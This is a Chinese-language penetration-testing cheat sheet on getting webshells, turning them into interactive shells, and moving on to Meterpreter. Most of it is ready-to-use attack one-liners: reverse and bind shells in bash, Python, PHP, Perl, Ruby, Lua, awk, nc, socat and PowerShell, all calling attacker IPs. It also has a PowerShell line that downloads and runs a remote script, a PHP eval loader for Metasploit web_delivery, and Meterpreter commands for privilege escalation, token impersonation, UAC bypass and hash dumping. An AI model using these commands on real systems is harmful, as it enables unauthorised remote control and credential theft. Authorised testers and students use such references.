 shell
========================================

webshell获取常规方法
----------------------------------------

通过CMS获取Webshell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通过CMS获取Webshell的思路通常分为两类： 一类是针对特定版本的具体漏洞进行利用，完成如远程执行命令、数据库注入等操作；另一类则是通过弱口令或者漏洞利用进后台管理界面，然后通过上传插件、修改模板文件等方式上传木马脚本。

通过非CMS获取Webshell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 利用文件上传
- 利用SQL注入

其他获取Webshell方法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Phpmyadmin
- Tomcat
- Weblogic
- JBoss

webshell升级为交互式shell
----------------------------------------

为什么需要交互式shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Webshell 里经常会看到一些 命令执行, 虚拟终端 之类的可以执行系统命令的功能，原理就是通过脚本语言自身提供的 system, popen, shell_exec 之类的函数来完成执行命令的目的。这种方式不支持上下文，并且在面对一些需要用户交互的命令时，就显得很鸡肋了。

比如说passwd命令:
	- root@localhost:/# passwd root
	- Enter new UNIX password: [这里需要用户按下键盘]
	- Retype new UNIX password: [这里需要用户按下键盘]

存在问题：
	- 无法使用vim等文本编辑器
	- 不能补全
	- 不能su
	- 没有向上箭头使用历史

正向shell
----------------------------------------

nc正向shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- server
	``nc -l 1567 -e /bin/bash -i`` 
	``nc -lvp 1567 -e c:\windows\system32\cmd.exe`` 
- client
	``nc 172.31.100.7 1567`` 

socat正向shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- server
	``socat TCP-LISTEN:12345 EXEC:/bin/bash`` 
- client
	``nc 192.168.x.x 12345`` 


反弹shell
----------------------------------------

什么是反弹shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

为什么需要反弹shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通常用于被控端因防火墙受限、权限不足、端口被占用等情形。
举例：假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。那么什么情况下正向连接不能用了呢？

- 如下情况：
	- 1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。
	- 2.目标机器的ip动态改变，你不能持续控制。
	- 3.由于防火墙等限制，对方机器只能发送请求，不能接收请求。
	- 4.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机等情况都是未知的，所以建立一个服务端让恶意程序主动连接，才是上策。

	那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

常用反弹shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- 各种shell

::

	注：需区分服务器的sh类型，可使用which sh查询。
	不同的sh，影响不同的反向shell是否可以成功。

- bash反向shell

::

	vps：nc -lvp 4444
	bash -i >& /dev/tcp/192.168.174.130/4444 0>&1

- python反向shell

::

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

- php反向shell

::

	php -r '$sock=fsockopen("192.168.174.130",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
	php -r '$sock=fsockopen("172.16.100.105",4444);$descriptorspec = array(0 => $sock,1 => $sock,2 => $sock);$process = proc_open('/bin/sh', $descriptorspec, $pipes);proc_close($process);'

- Perl反向shell 

::

	perl -e 'use Socket;$i="192.168.174.130";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	linux：perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.174.130:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
	windwos：perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"192.168.174.130:4444");STDIN->f

- socat反向shell

::

	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.174.130:4444

- Ruby反向shell

::

	ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.174.130","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	linux：ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.166","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	windows：ruby -rsocket -e 'c=TCPSocket.new("10.10.10.166","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

- Lua反向shell

::

	lua -e "require('socket');require('os');t=socket.tcp();t:connect('192。168.174.130','4444');os.execute('/bin/sh -i <&3 >&3 2>&3');"

- Awk反向shell

::

	awk 'BEGIN{s="/inet/tcp/0/192.168.174.130/4444";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'

- exec反向shell 

::

	exec 5<>/dev/tcp/192.168.174.130/4444 cat <&5 | while read line; do $line 2>&5 >&5; done
	0<&196;exec 196<>/dev/tcp/192.168.174.130/4444; sh <&196>&196 2>&196

- nc反向shell

::

	server(vps)：nc -lvp 1567
	client：nc 172.31.100.7 1567 -e /bin/bash
	client：nc 192.168.174.130 9999 -e c:\windows\system32\cmd.exe
	client：rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.174.130 4444 >/tmp/f

- powershell反弹shell

::

	apt-get install powshell
	powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.174.130 -port 4444

shell升级为交互式shell
-----------------------------------------

- 半交互式shell

::

	通常我们nc获得的shell都是不完全shell，需要通过Python的pty转换为半交互式shell。 
	python -c "import pty;pty.spawn('/bin/bash')"
	可以运行su命令。

- 完全交互式Shell

::

	$ python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z
	$ stty raw -echo
	$ fg
	$ reset
	$ export SHELL=bash
	//$ export TERM=xterm-256color


shell升级为meterpreter
-----------------------------------------
- web_delivery模块
	背景：
		目标设备存在远程文件包含漏洞或者命令注入漏洞，想在目标设备上加载webshell，但不想在目标设备硬盘上留下任何webshell文件信息.
	
	::
	
		使用步骤:
		1、use exploit/multi/script/web_delivery
		2、set target PHP   ====>因为一般web平台默认支持PHP，所以我们选择兼容性最好的PHP做webshell
		3、set payload php/meterpreter/reverse_tcp    ====>选择php写的meterpreter
		4、set lhost 172.20.163.160
		5、set lport 1111
		6、run

	|shell1|
	
	利用方式：
		命令注入漏洞： ``php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.20.163.160:1111/OgsOFaj3yKH'));"`` 
		远程文件包含漏洞： ``http://172.20.163.160:1111/OgsOFaj3yKH`` 

meterpreter提权
-----------------------------------------
- getsystem提权
- exp提权
	::
	
		meterpreter > background //先后台运行会话[*] Backgrounding session 1…
		msf > use post/windows/escalate/ms10_073_kbdlayout
		msf > show options
		msf > set session 1 //设置要使用的会话
		msf post(ms10_073_kbdlayout) > exploit
		
		或直接用一下命令：
		meterpreter > run post/windows/escalate/ms10_073_kbdlayout
- 盗取令牌
	::
	
		meterpreter > use incognito //进入这个模块
		meterpreter > list_tokens –u //查看存在的令牌
		meterpreter > impersonate_token NT AUTXXXX\SYSTEM //令牌是DelegationTokens一列，getuid查看，两个斜杠
		注意：只有具有“模仿安全令牌权限”的账户才能去模仿别人的令牌，一般大多数的服务型账户（IIS、MSSQL等）有
		这个权限，大多数用户级的账户没有这个权限。一般从web拿到的webshell都是IIS服务器权限，是具有这个模仿权
		限的，建好的账户没有这个权限。使用菜刀（IIS服务器权限）反弹meterpreter是服务型权限。
- Bypassuac
	::
	
		msf > use exploit/windows/local/bypassuac //32位与64位一样，其他几个模块也一样
		msf > show options
		msf > set session 4
		msf > run //成功后会返回一个新的session，进入新会话，发现权限没变，使用getsystem即可完成提权
- Hash
	``meterpreter > run post/windows/gather/smart_hashdump`` 


.. |shell1| image:: ../images/shell1.png